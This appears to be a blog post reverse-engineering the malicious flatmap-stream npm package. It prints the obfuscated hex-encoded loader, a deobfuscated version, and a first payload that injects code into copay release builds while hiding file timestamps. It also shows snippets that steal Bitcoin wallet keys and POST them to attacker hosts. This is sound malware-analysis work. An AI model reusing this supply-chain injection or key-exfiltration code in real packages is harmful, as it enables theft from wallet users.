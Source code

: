 ```yaml
---
title: Reversing flatmap-stream
date: '2019-01-13'
path: '/reversing-flatmap-stream/'
excerpt: Taking a belated look at the backdoor flatmap-stream package
tags: ['javascript', 'reversing', 'security']
---
```


flatmap-stream was included as a dependency in a widely used NPM library event-stream as a nested*.* It was discovered that [the minified version of flatmap-stream had some extra, obfuscated code](https://github.com/dominictarr/event-stream/issues/116). Let’s reverse the code to try to figure out what exactly what it is doing.

## Prettifying the code

```javascript
!(function() {
  try {
    var r = require,
      t = process;
    function e(r) {
      return Buffer.from(r, 'hex').toString();
    }

    var n = r(e('2e2f746573742f64617461')),
      o = t[e(n[3])][e(n[4])];

    if (!o) return;

    var u = r(e(n[2]))[e(n[6])](e(n[5]), o),
      a = u.update(n[0], e(n[8]), e(n[9]));
    a += u.final(e(n[9]));

    var f = new module.constructor();

    (f.paths = module.paths), f[e(n[7])](a, ''), f.exports(n[1]);
  } catch (r) {}
})();
```

The first thing of note is the `e` function, which converts hex strings. The payload for this malware is hidden within the these hex strings.

First string:

```javascript
> decode("2e2f746573742f64617461")
'./test/data'
```

This line imports code from the ./test/data folder, which contains 10 more hex obfuscated strings.

```javascript
module.exports = [
  '...truncated...',
  '...truncated...',
  '63727970746f',
  '656e76',
  '6e706d5f7061636b6167655f6465736372697074696f6e',
  '616573323536',
  '6372656174654465636970686572',
  '5f636f6d70696c65',
  '686578',
  '75746638',
];
```

After decoding and unobfuscating the code, we get

```javascript
!(function() {
  try {
    var r = require,
      t = process;
    function decode(r) {
      return Buffer.from(r, 'hex').toString();
    }

    // Get data
    var data = require('./test/data');
    // Get the package description, and exit early if it doesn't exist
    var packageDescription = process.env.npm_package_description;
    if (!packageDescription) {
      return;
    }

    // Decode the first payload with the npm package description
    var u = require('crypto').createDecipher('aes256', packageDescription);
    var firstPayload = u.update(data[0], 'hex', 'utf8');
    firstPayload += u.final('utf8');

    // Build a new module
    var f = new module.constructor();

    // Build a new module with the first and second payloads
    (f.paths = module.paths), f._compile(firstPayload, ''), f.exports(data[1]);
  } catch (r) {}
})();
```

This bootstrapping script is looking for a specific module name to properly decode the payload. We could write a script to harvest npm package descriptions that have flatmap-stream in their dependency tree. However, as the target package has already be discovered, we’ll cheat. The AES256 decryption key is `A Secure Bitcoin Wallet`, which was/is the description of the copay package.

## The first payload

```javascript
module.exports = function(e) {
  try {
    // Exit if specific args aren't in the command line
    if (!/build\\:.*\\-release/.test(process.argv[2])) return;

    // Same npm pack
    var packageDescription = process.env.npm_package_description,
      r = require('fs'),
      i =
        './node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js',
      // Get stats on ReedSolomonDecoder
      // Read file
      n = r.statSync(i),
      c = r.readFileSync(i, 'utf8'),
      // Create another cipher
      o = require('crypto').createDecipher('aes256', packageDescription),
      // Decrypt
      s = o.update(e, 'hex', 'utf8');
    s = '\\n' + (s += o.final('utf8'));

    // Write the payload into ReedSolomonDecoder, and reset utimes
    var a = c.indexOf('\\n/*@@*/');
    0 <= a && (c = c.substr(0, a)),
      r.writeFileSync(i, c + s, 'utf8'),
      r.utimesSync(i, n.atime, n.mtime),
      process.on('exit', function() {
        try {
          r.writeFileSync(i, c, 'utf8'), r.utimesSync(i, n.atime, n.mtime);
        } catch (e) {}
      });
  } catch (e) {}
};
```

The first payload injects the second payload into release builds of the package.

## The second payload

After decrypting the second payload with the key listed above, we find the meat and potatoes of the malware. Rather that posting the code for the entire block of code, I’ll post snippets that indicate what this payload does.

### POST to copayapi.host:8080 and 111.90.151.134:8080 with url e and payload n

```javascript
postToUrl('636f7061796170692e686f7374', e, n),
  postToUrl('3131312e39302e3135312e313334', e, n);
```

### Look for wallet files and send the wallet data to hosts above

```javascript
readFromFile('profile', function(e) {
  for (var t in e.credentials) {
    var n = e.credentials[t];
    // If livenet is the network, look in balanceCache files
    'livenet' == n.network &&
      readFromFile(
        'balanceCache-' + n.walletId,
        function(e) {
          var t = this;
          t.balance = parseFloat(e.balance.split(' ')[0]);
          ('btc' == t.coin && t.balance < 100) ||
            ('bch' == t.coin && t.balance < 1e3) ||
            // Set the wallet's xPubKey to a global var
            // POST wallet information to url:8080/c, 200 bytes at a time
            ((global.CSSMap[t.xPubKey] = !0),
            chunkAndPost('c', JSON.stringify(t)));
        }.bind(n)
      );
  }
});
```

### Extract wallet keys and send to hosts above

```javascript
var e = require('bitcore-wallet-client/lib/credentials.js');
// Extends getKeysFunc to send all the key information
// Also sends xPubKey previously set in the global var, and clears it
(e.prototype.getKeysFunc = e.prototype.getKeys),
  (e.prototype.getKeys = function(e) {
    var t = this.getKeysFunc(e);
    try {
      global.CSSMap &&
        global.CSSMap[this.xPubKey] &&
        (delete global.CSSMap[this.xPubKey],
        // POST to url:8080/p, 200 bytes at a time
        chunkAndPost('p', e + '\\t' + this.xPubKey));
    } catch (e) {}
    return t;
  });
```

At this point, it’s fairly clear that this piece of malware steals bitcoins and bitcoin cash. This is a fairly narrow scope attack. Most users of the event-stream package weren’t even affected in the first place.

I realize that this blog post is coming fairly late after the original incident, and most of the detective work has already been performed. However, I wanted to take my own stab at it to see if I could reverse it myself.
